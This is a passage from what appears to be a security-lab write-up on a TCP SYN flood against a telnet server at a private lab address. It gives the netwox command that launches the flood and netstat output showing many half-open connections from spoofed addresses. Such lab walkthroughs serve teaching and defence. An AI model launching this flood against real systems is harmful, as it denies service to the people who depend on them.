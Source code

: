 
Then on the attacker machine:

```
sudo netwox 76 -i 10.9.0.5 -p 23 -s raw
```

After a while, use `netstat -na` to check again:

```
...   
tcp        0      0 10.9.0.5:23             253.37.9.90:29644       SYN_RECV   
tcp        0      0 10.9.0.5:23             248.147.173.48:53909    SYN_RECV   
tcp        0      0 10.9.0.5:23             247.46.89.105:7502      SYN_RECV   
tcp        0      0 10.9.0.5:23             243.229.203.189:42333   SYN_RECV   
tcp        0      0 10.9.0.5:23             246.244.53.206:57787    SYN_RECV   
tcp        0      0 10.9.0.5:23             249.102.12.251:24453    SYN_RECV   
tcp        0      0 10.9.0.5:23             244.176.157.55:49031    SYN_RECV   
tcp        0      0 10.9.0.5:23             247.2.21.131:10590      SYN_RECV   
tcp        0      0 10.9.0.5:23             246.91.154.140:20177    SYN_RECV   
tcp        0      0 10.9.0.5:23             248.79.118.252:19283    SYN_RECV   
tcp        0      0 10.9.0.5:23             244.80.239.198:32419    SYN_RECV   
tcp        0      0 10.9.0.5:23             242.210.141.208:16979   SYN_RECV   
tcp        0      0 10.9.0.5:23             253.118.208.122:16242   SYN_RECV   
tcp        0      0 10.9.0.5:23             250.62.104.1:59169      SYN_RECV   
tcp        0      0 10.9.0.5:23             253.106.167.210:45412   SYN_RECV   
tcp        0      0 10.9.0.5:23             242.127.134.197:2832    SYN_RECV   
tcp        0      0 10.9.0.5:23             240.252.233.154:29403   SYN_RECV   
tcp        0      0 10.9.0.5:23             244.144.27.104:39086    SYN_RECV   
tcp        0      0 10.9.0.5:23             245.46.194.239:65426    SYN_RECV   
tcp        0      0 10.9.0.5:23             252.95.20.253:54774     SYN_RECV   
tcp        0      0 10.9.0.5:23             249.17.43.156:55525     SYN_RECV   
tcp        0      0 10.9.0.5:23             252.217.188.194:13813   SYN_RECV   
tcp        0      0 10.9.0.5:23             243.100.186.129:23679   SYN_RECV   
tcp        0      0 10.9.0.5:23             244.56.4.56:17826       SYN_RECV   
tcp        0      0 10.9.0.5:23             245.8.59.84:53947       SYN_RECV   
tcp        0      0 10.9.0.5:23             253.88.152.41:26808     SYN_RECV  
...
```
There are plenty of `SYN_RECV`-state (i.e. half-open) TCP connections targeting `10.9.0.5:23` from random source IP addresses. The server seems to be overwhelmed.

Meanwhile, if you attempt to `telnet` the server machine from the user machine, it will show:
